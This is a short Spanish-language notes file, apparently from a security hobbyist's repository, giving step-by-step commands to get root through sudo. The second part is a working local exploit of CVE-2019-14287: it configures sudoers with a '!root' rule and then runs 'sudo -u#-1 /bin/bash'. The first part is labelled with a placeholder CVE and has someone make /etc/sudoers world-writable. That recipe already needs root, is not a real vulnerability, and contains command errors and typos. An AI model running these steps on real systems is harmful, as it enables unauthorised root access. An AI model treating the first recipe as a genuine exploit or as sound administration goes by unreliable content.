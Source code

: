 # sudo

# CVE-2017-XXXX hackingyseguridad

#1.- Para editar el fichero sudiers sin problemas 

$chmod 777 /etc/sudoers    

#2.- Añadidmos en la linea sudo de /etc/group a antonio

sudo vim /etc/group

sudo:x:27:antonio

forzamos la escritura en group al salir con :wq!

#3.- Restablecemos los privilegios del fichero sudoers con 

$chmod 755 /etc/sudoers

#4.- Explotamos 

$sudo antonio

$sudo su

#whoami

#5.- ya somos root!


# CVE-2019-14287 VULNERABILIDAD SUDO VERSIONES < 1.8.28 

#0.- Comprovamos la version de sudo instalada con: 

$sudo -V

#1.- Editamos el fichero /etc/sudoers con $sudo visudo 

#2.- Añadimos la linea con el usuario antonio 

#User privilege specification

root ALL=(ALL:ALL) ALL

%admin ALL=(ALL) ALL

antonio ALL=(ALL) /usr/bin/id

#3.- Ejecutamos: 

$su antonio

$sudo id

$sudo whoani

$sudo -u antonio id

#4.- Volvemos a editar el fichero /etc/sudoers con $sudo visudo

#5.- Modificamos la linea

antonio ALL=(ALL, !root) ALL

#6.- Explotamos la vulnerabilidad con sudo -u#-1

$sudo -u#-1 /bin/bash

#whoami

#7.- ya somos root!
